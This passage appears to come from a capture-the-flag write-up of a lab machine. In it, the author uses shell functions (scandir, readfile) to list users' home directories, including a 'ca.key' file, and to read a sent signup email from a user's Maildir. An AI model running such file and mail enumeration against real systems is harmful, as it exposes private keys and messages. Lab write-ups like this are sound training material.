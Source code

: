 ```
dir('/home/oslo');
=> [
     ".",
     "..",
     "Maildir",
     "inbox.jade",
     "index.jade",
     "node_modules",
     "package-lock.json",
     "server.js",
     "static",
   ]
scandir('/home/nairobi');
=> [
     ".",
     "..",
     "ca.key",
     "download.jade",
     "error.jade",
     "index.jade",
     "node_modules",
     "server.js",
     "static",
   ]
```

In Oslo's mail directory I find an email that seemed to have been generated when I logged in with the OTP token on the main webpage.

```
scandir('/home/oslo/Maildir');
=> [
     ".",
     "..",
     ".Sent",
     ".Spam",
     "cur",
     "new",
     "tmp",
   ]
scandir('/home/oslo/Maildir/.Sent/cur');
=> [
     ".",
     "..",
     "1553996613811.M45533P25345V0000000000064766I000000000bddc36.lacasadepapel.htb,S=430,2,S",
   ]
readfile('/home/oslo/Maildir/.Sent/cur/1553996613811.M45533P25345V0000000000064766I000000000bddc36.lacasadepapel.htb,S=430,2,S');
Content-Type: text/plain; format=flowed
From: dali@lacasadepapel.htb
Content-Transfer-Encoding: 7bit
Date: Sun, 31 Mar 2019 01:53:01 +0000
Message-Id: <1553997181916-f1bee4c5-810b2c36-4f055080@lacasadepapel.htb>
MIME-Version: 1.0

Welcome to our community!
Thanks for signing up. To continue, please verify your email address by 
clicking the url below.
https://lacasadepapel.htb/64fd1030-5356-11e9-ae89-233fa7c29f94

=> 430
```
